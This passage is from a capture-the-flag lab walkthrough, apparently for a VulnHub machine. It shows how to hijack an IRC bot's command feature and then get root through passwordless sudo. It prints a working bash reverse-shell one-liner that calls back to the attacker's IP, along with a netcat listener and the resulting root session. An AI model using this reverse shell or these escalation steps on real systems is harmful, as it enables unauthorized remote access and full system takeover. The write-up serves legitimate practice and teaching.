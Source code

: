 ```console
waldo@ubuntu:/$ whoami
whoami
waldo
```

We got a shell for waldo! You can now attach the tmux terminal and use waldo's session. Now, either log out waldo OR use the CLI based IRC client running to run commands as him. I chose the first since I'd rather use a GUI.

#### On waldo's shell

1\. "tmux attach"
2\. /exit

```
    * waldo has quit (Quit: leaving)
```
On hexchat:

1\. /nick waldo
```
    * You are now known as waldo
```

2\. Go to wallabysbot window and chat with the bot, you can now run `.run whoami`

```
    <waldo> .run whoami
    <wallabysbot> b'wallaby
```


Now you can run code as wallaby!

The `.run` command felt very tricky to me, initially I created a revsh payload through msfvenom, uploaded it and ran it using the full path. I discovered later an easier approach, discussed below.

Let's get a shell by starting a listener on 8080 on our attacking machine, then type the following:

```
    .run bash -c "bash -i >& /dev/tcp/192.168.94.128/8080 0>&1"
```

```console
root@kali:~# nc -nvlp 8080
listening on [any] 8080 ...
connect to [192.168.94.128] from (UNKNOWN) [192.168.94.131] 48748
bash: cannot set terminal process group (637): Inappropriate ioctl for device
bash: no job control in this shell
wallaby@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for wallaby on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wallaby may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
wallaby@ubuntu:~$ sudo su
sudo su
whoami
root
cd /root
ls -al
total 48
drwx------  4 root root 4096 Dec 27 19:31 .
drwxr-xr-x 22 root root 4096 Dec 14 19:24 ..
drwxr-xr-x  2 root root 4096 Dec 27 11:27 backups
-rw-------  1 root root    1 Dec 27 12:26 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rwxr-xr-x  1 root root  510 Dec 27 19:31 check_level.sh
```